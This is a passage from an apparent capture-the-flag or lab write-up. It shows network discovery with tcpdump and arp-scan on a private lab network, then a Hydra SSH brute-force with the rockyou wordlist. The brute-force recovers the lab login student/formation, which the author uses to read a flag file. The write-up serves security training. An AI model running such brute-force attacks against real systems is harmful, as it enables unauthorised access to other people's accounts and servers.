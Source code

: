 08:16:40.374078 IP 0.0.0.0.bootpc > 255.255.255.255.bootps: BOOTP/DHCP, Request from bc:24:11:fb:f0:03 (oui Unknown), length 300
08:16:41.394709 ARP, Request who-has 172.19.0.254 tell 172.19.0.20, length 28
```

We can see multiple request, with DHCP and ARP, and we can see a new address assigned at ```172.19.0.20```.
We can verify the new address by launching another arp-scan :

```
sudo arp-scan --interface eth0 --localnet
Interface: eth0, type: EN10MB, MAC: bc:24:11:d6:65:a2, IPv4: 172.19.0.100
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
172.19.0.20     bc:24:11:fb:f0:03       (Unknown)
172.19.0.21     bc:24:11:c3:38:11       (Unknown)
172.19.0.254    bc:24:11:56:e8:c9       (Unknown)

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.843 seconds (138.90 hosts/sec). 3 responded
```

---


## Brute-force SSH

Now let's focus on the server target on 172.19.0.21, there is a SSH port openned so let's try brute-force it with hydra :

```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://172.19.0.21

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-19 08:41:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.19.0.21:22/
[STATUS] 191.00 tries/min, 191 tries in 00:01h, 14344216 to do in 1251:41h, 9 active
[22][ssh] host: 172.19.0.21   login: student   password: formation
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-19 08:44:18
```

Here is the result we wanted :

```[22][ssh] host: 172.19.0.21   login: student   password: formation```

Now we can use thoses logs to connect by SSH and get an access point in the server and see our flag :

```
student@debian:~$ cat /home/student/flag.txt
Compte:student_Pass:formation
```

---
```